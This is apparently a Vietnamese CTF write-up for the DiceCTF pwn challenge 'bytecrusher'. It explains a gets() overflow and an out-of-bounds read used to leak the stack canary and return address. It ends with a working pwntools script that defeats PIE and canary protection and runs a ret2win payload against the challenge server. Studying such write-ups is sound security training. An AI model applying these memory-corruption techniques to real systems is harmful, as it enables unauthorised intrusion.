



## Pwn / bytecrusher
Đầu tiên hãy xem qua các cơ chế bảo mật bằng checksec:



Oke, đây là một tập tin nhị phân được bảo vệ rất tốt. Ta cần leak một số địa chỉ để tìm ra PIE base. Ở đây, tác giả cho ta tệp source code của nó nên ta sẽ phân tích xem trong này có thể có lỗ hổng gì.

### Phân tích source code
Đầu tiên, ta thấy ngay hàm `get_feedback()` có hàm `gets` khá tiềm năng vì có thể gây buffer overflow:
```python
void get_feedback() {
    char buf[16];
    printf("Enter some text:\n");
    gets(buf);
    printf("Your feedback has been recorded and totally not thrown away.\n");
}
```

Flag ở đây được in ra từ hàm `admin_portal()` nên ta cần Ret2win tới đó chứ không cần shell:
```python
void admin_portal() {
    puts("Welcome dicegang admin!");
    FILE *f = fopen("flag.txt", "r");
    if (f) {
        char read;
        while ((read = fgetc(f)) != EOF) {
            putchar(read);
        }
        fclose(f);
    } else {
        puts("flag file not found");
    }
}

int main() {
    ...
    if (COMPILE_ADMIN_MODE) {
        admin_portal();
    }
}
```

Hàm `crush_string()` được gọi 16 lần ở `free_trial()`, có thể leak canary và ret???
```python
void crush_string(char *input, char *output, int rate, int output_max_len) {
    if (rate < 1) rate = 1;
    int out_idx = 0;
    for (int i = 0; input[i] != '\0' && out_idx < output_max_len - 1; i += rate) {
        output[out_idx++] = input[i];
    }
    output[out_idx] = '\0';
}

void free_trial() {
    ...
    for (int i=0; i<16; i++) {
        ...
        crush_string(input_buf, crushed, rate, output_len);
    }
}
```

Xâu chuỗi lại, ta cần dùng `crush_string()` để leak mem tìm canary và PIE base. Code này lưu trữ các giá trị từ input vào output với 1 giá trị `rate` cho trước. Trước khi gọi hàm, độ dài output được check để không vượt quá giới hạn của input, nhưng lại không kiểm tra liệu người dùng có đang đọc trong phạm vi của input hay không. Nghĩa là ta được đọc thoải mái với cách này và có thể  leak stack canary và return address giúp ta tìm PIE base.
### Stack Layout
Để tìm xem cần leak offset nào, ta sẽ xem stack layout của nó:





Địa chỉ input là: 0x7fffffffd090 (0x4141414141414141 là chuỗi ký tự A ta nhập). Ở dòng địa chỉ 0x7fffffffd0d0 có giá trị 0xfb6b348952ab0600 trông có vẻ ngẫu nhiên và kết thúc bằng byte 00 nên đây chắc là stack canary. Ta còn leak được return address ở 0x7fffffffd0e8 vì có giá trị 0x00005555555555ec.

Đây là script cho bài này:
```python
from pwn import *

# p = process('./bytecrusher')
p = remote('bytecrusher.chals.dicec.tf', 1337)
elf = ELF('./bytecrusher')
context.binary = elf

CANARY_OFFSET = 72       # Khoảng cách từ input_buf đến Stack Canary
RIP_OFFSET = 88          # Khoảng cách từ input_buf đến Saved RIP
MAIN_RET_OFFSET = 0x15ec # Offset của lệnh `call get_feedback` trong hàm main


def leak_byte(offset, is_last=False):
    p.sendlineafter(b"Enter a string to crush:\n", b"A")
    p.sendlineafter(b"Enter crush rate:\n", str(offset).encode())
    p.sendlineafter(b"Enter output length:\n", b"3")
    
    p.recvuntil(b"Crushed string:\n")
    
    # Ký tự phân tách cho lần lặp tiếp theo
    if not is_last:
        data = p.recvuntil(b"Trial ", drop=True)
    else:
        data = p.recvuntil(b"Enter some ", drop=True)
        
    # Xoá ký tự newline (\n) do puts sinh ra
    if data.endswith(b"\n"):
        data = data[:-1]
        
    # Nếu data chỉ có b"A", nghĩa là byte rò rỉ là một null byte (\x00)
    if len(data) == 1:
        return 0x00
    else:
        return data[1]

def main():
    canary = b""
    saved_rip = b""

    log.info("Bắt đầu leak Stack Canary...")
    for i in range(8):
        b = leak_byte(CANARY_OFFSET + i)
        if i == 0 and b != 0x00:
            log.warning("Byte đầu của Canary không phải 0x00! Hãy kiểm tra lại CANARY_OFFSET.")
        canary += bytes([b])
    
    canary_val = u64(canary)
    log.success(f"Đã rò rỉ Canary: {hex(canary_val)}")

    log.info("Bắt đầu leak Saved RIP...")
    for i in range(8):
        is_last = (i == 7) # Lần thử thứ 16 (cuối cùng)
        b = leak_byte(RIP_OFFSET + i, is_last)
        saved_rip += bytes([b])
        
    saved_rip_val = u64(saved_rip)
    log.success(f"Đã rò rỉ Saved RIP: {hex(saved_rip_val)}")

    # Tính toán PIE Base
    elf.address = saved_rip_val - MAIN_RET_OFFSET
    log.success(f"PIE Base: {hex(elf.address)}")

    # Chuẩn bị payload cho get_feedback()
    admin_portal = elf.symbols['admin_portal']
    
    # Tìm nhanh một lệnh `ret` trong binary để căn chỉnh stack (Stack Alignment)
    rop = ROP(elf)
    ret_gadget = rop.find_gadget(['ret'])[0]

    payload = flat([
        b"A" * 24,
        p64(canary_val),      # Ghi đè lại đúng Canary
        b"B" * 8,             # Ghi đè Saved RBP
        p64(ret_gadget),      # Bypass MOVAPS issue (Stack Alignment 16-byte)
        p64(admin_portal)     # Điểm nhảy cuối cùng
    ])

    # Gửi payload vào gets()
    p.recvuntil(b"text:\n")
    p.sendline(payload)
    
    # Nhận cờ
    p.interactive()

if __name__ == "__main__":
    main()
``` 

    Flag: dice{pwn3d_4nd_coRuSh3d}